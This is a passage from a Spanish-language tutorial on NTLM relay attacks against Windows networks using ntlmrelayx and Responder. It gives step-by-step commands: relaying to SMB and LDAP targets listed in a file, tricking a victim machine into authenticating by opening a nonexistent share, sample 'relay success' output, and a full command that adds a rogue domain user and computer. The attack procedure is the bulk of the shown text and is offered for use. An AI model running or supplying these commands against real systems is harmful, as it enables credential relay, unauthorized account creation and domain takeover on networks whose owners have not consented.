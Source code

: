 - `-t`: objetivo (servidor vulnerable donde haremos relay).
- `--no-http-server`: evita iniciar el servidor HTTP de ntlmrelayx si no lo necesitas.
- `-smb2support`: activa soporte para SMBv2.

📌 _Puedes usar también LDAP o múltiples objetivos:_

```bash
sudo ntlmrelayx.py -tf targets.txt
```

Contenido de `targets.txt`:

```
smb://192.168.1.50
ldap://192.168.1.51
```

---

### 📍 Paso 3: Provoca autenticación NTLM

En la máquina Windows víctima:

```cmd
\\servidor_inexistente
```

Windows tratará de resolver el nombre, Responder atrapará la petición y **ntlmrelayx la reenviará** al servidor SMB.

---

### ✅ Si el relay funciona...

- ntlmrelayx imprimirá algo como:

```bash
[+] SMB relay success! User: VICTIMA\juan
[+] Dumping shares or executing commands...
```

- Puede crear un **usuario remoto** o abrir una **shell con privilegios** si el usuario tiene permisos suficientes.

---

### 🎯 Ejemplo completo con creación de usuario remoto

Si la víctima es **admin en el servidor destino**, puedes usar:

```bash
sudo ntlmrelayx.py -t smb://192.168.1.50 -smb2support --no-http-server --add-user relayuser --add-computer
```

Esto intentará:

- Agregar un nuevo usuario `relayuser`.
- Agregar un equipo al dominio (si es contra LDAP).

---